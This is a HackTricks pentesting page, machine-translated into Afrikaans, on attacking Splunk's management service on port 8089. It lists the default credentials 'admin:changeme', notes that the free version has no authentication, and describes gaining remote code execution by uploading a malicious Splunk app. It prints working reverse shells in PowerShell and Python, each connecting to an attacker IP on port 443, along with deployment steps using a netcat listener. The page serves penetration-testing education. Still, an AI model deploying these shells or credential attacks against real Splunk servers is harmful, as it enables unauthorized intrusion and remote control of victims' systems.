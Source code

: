 # 8089 - Pentesting Splunkd

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Basiese Inligting**

* Log analitiese hulpmiddel wat gebruik word vir data insameling, analise, en visualisering
* Gewoonlik gebruik in sekuriteitsmonitering en besigheidsanalise
* Standaard poorte:
* Webbediener: 8000
* Splunkd diens: 8089

### Kwetsbaarheid Vektore:

1. Gratis Weergawe Exploitatie

* Proefweergawe omskakel outomaties na gratis weergawe na 60 dae
* Gratis weergawe het nie outentisering nie
* Potensiële sekuriteitsrisiko as dit onbeheerd gelaat word
* Administrateurs mag sekuriteitsimplikasies oor die hoof sien

2. Kredensiaal Swakhede

* Ou weergawe: Standaard kredensiale `admin:changeme`
* Nuwe weergawes: Kredensiale wat tydens installasie gestel word
* Potensiaal vir swak wagwoord gebruik (bv. `admin`, `Welcome`, `Password123`)

3. Afgeleë Kode Uitvoering Geleenthede

* Meerdere kode uitvoeringsmetodes:
* Bediening-kant Django toepassings
* REST eindpunte
* Geskryfde insette
* Alarm skripte
* Kruis-platform ondersteuning (Windows/Linux)
* Geskryfde insette kan loop:
* Bash skripte
* PowerShell skripte
* Batch skripte

Sleutel Exploitatie Potensiaal:

* Sensitiewe data stoor
* Gebrek aan outentisering in gratis weergawe
* Meerdere vektore vir potensiële afgeleë kode uitvoering
* Moontlikheid om geskrifte insette te benut vir stelselskompromie

### Shodan

* `Splunk bou`

## RCE

### Skep Aangepaste Toepassing

Splunk bied 'n gesofistikeerde metode vir afgeleë kode uitvoering deur aangepaste toepassingsontplooiing, wat sy kruis-platform skripting vermoëns benut. Die kern exploitatie tegniek draai om die skep van 'n kwaadwillige toepassing wat omgekeerde skale op beide Windows en Linux stelsels kan uitvoer.

'n Aangepaste toepassing kan **Python, Batch, Bash, of PowerShell skripte** uitvoer. Boonop, **Splunk kom met Python geïnstalleer**, so selfs in **Windows** stelsels sal jy in staat wees om python kode uit te voer.

Jy kan [**hierdie**](https://github.com/0xjpuff/reverse_shell_splunk) voorbeeld gebruik met die **`bin`** wat 'n voorbeeld bevat vir [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) en [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1). Of jy kan jou eie skep.

Die exploitatie proses volg 'n konsekwente metodologie oor platforms:
```
splunk_shell/
├── bin        (reverse shell scripts)
└── default    (inputs.conf configuration)
```
Die kritieke konfigurasie lêer `inputs.conf` aktiveer die skrip deur:

* `disabled = 0` in te stel
* 'n 10-sekonde uitvoeringsinterval te konfigureer
* Die skrip se brontipe te definieer

Ontplooiing is eenvoudig:

1. Skep die kwaadwillige toepassingspakket
2. Stel 'n luisteraar (Netcat/socat) op die aanvalmasjien op
3. Laai die toepassing op deur Splunk se koppelvlak
4. Trigger outomatiese skripuitvoering by opgelaai

Voorbeeld Windows PowerShell omgekeerde skulp:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};
$client.Close()
```
Voorbeeld Linux Python omgekeerde skulp:
```python
import sys, socket, os, pty
ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```
### RCE & Privilege Escalation

In die volgende bladsy kan jy 'n verduideliking vind oor hoe hierdie diens misbruik kan word om voorregte te verhoog en volharding te verkry:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## References

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) of die [**telegram group**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
